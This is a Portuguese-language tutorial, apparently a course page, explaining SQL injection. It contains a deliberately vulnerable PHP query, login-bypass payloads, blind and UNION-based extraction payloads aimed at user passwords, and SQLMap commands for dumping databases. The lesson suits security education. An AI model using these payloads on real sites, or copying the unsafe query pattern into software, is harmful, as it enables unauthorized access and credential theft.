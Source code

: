 # O que é SQL Injection

Um ataque de SQL Injection consiste em injetar comandos em uma consulta SQL. Um exploit de SQL Injection bem sucedido pode ler dados do banco de dados, modificar dados do banco de dados, executar comandos administrativos no banco de dados e até executar comandos no sistema operacional

## Fundamentos de SQL

SQL é uma linguagem usada na programação para interagir com banco de dados. É uma linguagem extremamente útil para organizar dados estruturais. Infelizmente, isso sempre vem com uma desvantagem, uma configuração errada no banco de dados SQL pode significar a uma possível sql injection

Não vamos entrar em muitos detalhes agora, vamos apenas falar o necessário para essa aula

Normalmente, em um ataque SQL injection usamos 4 comando especificos: SELECT, FROM, WHERE e UNION

## Comandos SQL

| Comando | Descrição |
|---------|-----------|
| `SELECT` | Usado para selecionar dados de um banco de dados. |
| `FROM` | Usado para especificar de qual tabela selecionar ou deletar dados. |
| `WHERE` | Usado para extrair apenas os registros que cumprem uma condição específica. |
| `UNION` | Usado para combinar o conjunto de resultados de duas ou mais instruções `SELECT`. |

É importante mencionar que em SQL 1 = 1 significa verdadeiro (já já você vai entender a importância disso)

## Como funciona um ataque SQL

SQL é realizado através de um abuso de um parametro php GET (Por exemplo ?username= ou ?id=)
na url da página. Abaixo temos um exemplo de um campo de entrada de nome de usuário em php:

```php
<?php
$username = $_GET["username"];
$result = mysql_query("SELECT * FROM users WHERE username='$username'")
?>
```
Na primeira linha temos uma variável que pega o parametro username do formulário get
Na segunda linha o sql seleciona todos os usuários com o usuário fornecido. Exatamente isso pode ser explorado

Se um usuário mal intencioda colocar uma marca de citação '(ou aspa) como entrada, o código sql fica assim

```sql
SELECT * FROM users WHERE username='''
```

Essa marca gera um erro, e esse erro é usado para explorar a injeção

No geral, a injeção sql é um ataque para quebrar a lógica do código sql, injetar a sua e depois "consertar" a parte quebrada com comentários

![SQLinjection](/content/sqlInjection.png)

os comentários mais usados para payloads de SQLi são:
`--+`
`//`
`/*`

Uma das utilidades da injeção SQL é o bypass de login. Ele permite que o atacante acesse QUALQUER conta, desde que ele saiba o nome de usuário e a senha (normalmente ele só saberá o usuário)

Para consultar o SQL para verificar se o usuário e a senha existem, usamos:

`SELECT username, password FROM users WHERE username='$username' and password='$password'`

se usarmos `' or true --` no campo de usuário a consulta fica: 

`SELECT username, password FROM users WHERE username='' or true -- and password=''`

o `--` comentou a verificação de senha, fazendo com que a aplicação não considere aquela parte do códgio. Esse truque permite que você faça acesso em qualquer conta só com o usuário e payload 

Alguns sites podem usar consultas diferentes, como:

`SELECT username, pass FROM users WHERE username=('$username') and password=('$password')`

Nesse caso, você precisa adicionar um parentese único ao payload: `') or true --` para funcionar

### Blind SQL Injection

Em alguns casos, os desenvolvedores usam o cérebro para anular qualquer erro. Infelizmente, isso torna impossível o ataque anterior

Blind SQL injection se baseia em mudanças em uma aplicação durante um ataque. Ou seja, um erro que pode ser detectado de outras formas, como conteúdo alterado ou outra mudança na página

Com base nisso, o atacante pode adivinhar o nome do banco de dados, ler colunas e etc. Blind SQLi leva mais tempo do que outros tipos, mas pode ser o mais comum

Primeiro você encontra uma maneira de encontrar um erro e consertando

![Blind SQL error](/content/BlindSQLierror.png)

E depois é só quebrar:

![Blind SQLi You are in](/content/BlindSQLiyai.png)

A aplicação não exibiu nenhum erro, mesmo que eu tenha claramente causado um erro

Para fazer as perguntas, você pode usar a função `SUBSTR()`. 

`substr((select database(),1,1)) = 115`

O código acima pergunta ao database se a primeira letra do seu nome começa com 115 ('s' na tabela ASCII)

agora coloque isso em um payload:

`?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+`

O payload é a pergunta, se a aplicação não produz mudança, a resposta é sim, a primeira letra do banco de dados é "s", qualquer erro ou mudança significa não

![](/content/BSqli.png)

### SQL Injection com UNION

Injeção SQL com UNION normalmente é usada para enumeração rápida do banco de dados, já que o UNION combina resultados de mais de um SELECT de uma vez

O ataque de SQLi UNION se divide em 3 partes:

1. Encontrar o número de colunas
2. Verificar se as colunas são adequadas
3. Atacar e roubar dados úteis

#### 1. Determinar o número de colunas com UNION

Existem duas maneiras de completar o primeiro passo

A primeira é injetando consultas ORDER BY até que um erro ocorra:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
E assim por diante, até receber um erro (o último valor antes do erro é o número de colunas)

A segunda envolve enviar payloads UNION SELECT com valores NULL

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--
```

assim por diante, até o erro

#### 2. Encontrar colunas com tipos de dados úteis com UNION

Geralmente, dados que você precisa vão estar em formato de string. Tendo o número de colunas, você pode testar cada coluna para verificar se ela contém dados do formato string substituindo o payload UNION SELECT com um valor String:

```sql
' UNION SELECT "a",NULL,NULL--
' UNION SELECT NULL,"a",NULL--
' UNION SELECT NULL,NULL,"a"--
```

Sem erro = o formato da coluna é string

#### 3. Usando um ataque com UNION para recuperar dados

Tendo o número de colunas e quais colunas contém dados úteis, você pode capturar os dados

Supondo que temos 2 colunas úteis e uma tabela chamada users com as colunas username e password

`UNION SELECT username, password FROM users --`

## SQLMap

SQLMap é uma ferramenta de código aberto para automatizar e explorar falhas de SQLi e tomada de controle em servidores de banco de dados. ela pode ser instalada usando o git:

`git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`

Algumas das principais opções do SQLMap são:

```
--url	Fornece a URL para o ataque
--dbms	Informa ao SQLMap o tipo de banco de dados que está em execução
--dump	Copia os dados dentro do banco de dados que a aplicação usa
--dump-all	Copia TODO o banco de dados
--batch	O SQLMap será executado automaticamente e não solicitará entrada do usuário
```

Exemplo de ataque SQLMap:

`sqlmap --url <exemplo.com/login.php> --tables --columns`

onde:
--url - define a url a ser atacada
--tables - copia as tabelas do banco de dados
--columns - copia as colunas do banco de dados

